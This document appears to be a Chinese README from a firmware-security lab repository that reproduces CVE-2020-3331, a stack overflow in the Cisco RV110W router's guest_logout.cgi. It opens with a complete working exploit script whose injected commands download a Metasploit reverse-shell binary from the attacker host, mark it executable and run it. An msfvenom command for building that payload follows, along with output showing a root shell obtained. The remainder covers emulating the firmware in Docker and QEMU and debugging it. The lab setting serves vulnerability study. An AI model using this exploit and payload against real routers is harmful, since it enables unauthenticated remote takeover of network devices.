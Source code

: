 # Cisco RV110W 远程命令执行漏洞（CVE-2020-3331）

- 版本：Cisco RV110W 1.2.2.5
- 漏洞：前台 cgi 接口 `guest_logout.cgi` 栈溢出
- 利用：a0 寄存器可控，ret2system

```python
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

context(arch='mips', endian='little', os='linux')

system = 0x0047A610

cmd  = '\n'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf\n'

assert(len(cmd) < 0x55)

payload = b"status_guestnet.asp" + cmd.ljust(0x55,'a').encode() + p32(system) 
data = {"cmac":"12:af:aa:bb:cc:dd", "submit_button":payload, "cip":"192.168.100.1"}

def attack():
    try: requests.post("http://192.168.2.2/guest_logout.cgi", data=data, timeout=1)
    except: pass

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:mipsel

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/mipsel && docker build -t firmianay/qemu-system:mipsel . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/RV110W_FW_1.2.2.5.bin"
```

使用 Metasploit 生成反向 shell，并复制到 `system-emu/tools` 目录下：

```sh
$ msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-mipsel CVE-2020-3331/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/mipsel-gdbserver-7.11.1 CVE-2020-3331/system-emu/tools/gdbserver

$ cd Cisco/CVE-2020-3331
$ docker-compose -f docker-compose-system.yml build
```

## 首次攻击尝试

仍然在 `Cisco/CVE-2020-3331` 目录中，启动镜像：

```sh
$ docker-compose -f docker-compose-system.yml up
```

出现如下内容说明 Web 服务启动完成：

```
cisco-system  | http_settimeouts=Unknown
cisco-system  | http_settimeouts_usec=Unknown
cisco-system  | http_debug=Unknown
```

再开启一个容器的 shell，即可尝试首次攻击：

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
[+] Trying to bind to :: on port 31337: Done
[+] Waiting for connections on :::31337: Got connection from ::ffff:192.168.2.2 on port 57638
[+] getshell
[*] Switching to interactive mode
$ uname -a
Linux debian-mipsel 3.2.0-4-4kc-malta #1 Debian 3.2.51-1 mips unknown
$ id
uid=0 gid=0
```

## docker 中调试

参考 `run.sh` 进行配置。

窗口一：开启调试（qemu-system shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ cd images
root@7463bb44fe27:$ ps -ef | grep qemu-system  | awk '{print $2}' | xargs kill -9
root@7463bb44fe27:$ qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

即可进入 qemu-system，以 root:root 手动登录后进行调试：

root@debian-mipsel:$ cd squashfs-root/
root@debian-mipsel:$ ./tools/run_httpd.sh
root@debian-mipsel:$ ps -ef | grep httpd | grep -v 'grep' | awk '{print $2}' | xargs ./tools/gdbserver :6666 --attach
Attached; pid = 2328
Listening on port 6666
```

窗口二：调试界面（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ tar xzf squashfs-root.tar.gz
root@7463bb44fe27:$ gdb-multiarch -x ./tools/gdb.cmd 
gef➤  c
```

窗口三：触发漏洞（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
```

## 本机调试

如果你不想用 docker 进行调试，在 docker-compose 中预留了端口映射，可以手动使用 ssh 将 qemu 靶机的 80 和 6666 端口转发到 docker 主机，通过 docker 最终映射到宿主机的端口上：

```yml
ports:
    - "8888:80"
    - "6666:6666"
```

在 docker 里执行如下命令进行端口转发：

```sh
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:6666:192.168.2.2:6666
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:80:192.168.2.2:80
```

待启动调试后，即可在宿主机上访问 8888 和 6666 端口来访问漏洞服务和 gdbserver 了。

## 参考链接

- https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/

